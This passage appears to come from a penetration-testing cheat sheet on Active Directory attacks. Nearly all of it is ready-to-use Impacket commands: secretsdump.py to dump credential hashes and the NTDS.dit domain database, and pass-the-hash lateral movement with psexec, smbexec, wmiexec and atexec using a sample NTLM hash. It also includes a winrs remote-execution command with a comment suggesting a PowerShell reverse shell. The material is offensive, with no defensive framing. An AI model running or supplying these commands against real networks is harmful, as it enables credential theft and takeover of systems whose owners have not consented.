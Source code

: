 ```powershell
secretsdump.py <domain>/<user>:<password>@<IP>
secretsdump.py uname@IP -hashes lmhash:ntlmhash #local user
secretsdump.py domain/uname@IP -hashes lmhash:ntlmhash #domain user
```

### Dumping NTDS.dit

```bash
secretsdump.py <domain>/<user>:<password>@<IP> -just-dc-ntlm
#use -just-dc-ntlm option with any of the secretsdump command to dump ntds.dit
```

## Lateral Movement in Active Directory

### psexec - smbexec - wmiexec - atexec

- Here we can pass the credentials or even hash, depending on what we have

> *Always pass the full hash to these tools!*
> 

```powershell
psexec.py <domain>/<user>:<password1>@<IP>
# the user should have write access to Admin share then only we can get sesssion

psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command> 
#we passed full hash here

smbexec.py <domain>/<user>:<password1>@<IP>

smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command> 
#we passed full hash here

wmiexec.py <domain>/<user>:<password1>@<IP>

wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command> 
#we passed full hash here

atexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command>
#we passed full hash here
```

### winrs

```powershell
winrs -r:<computername> -u:<user> -p:<password> "command"
# run this and check whether the user has access on the machine, if you have access then run a powershell reverse-shell
# run this on windows session
```
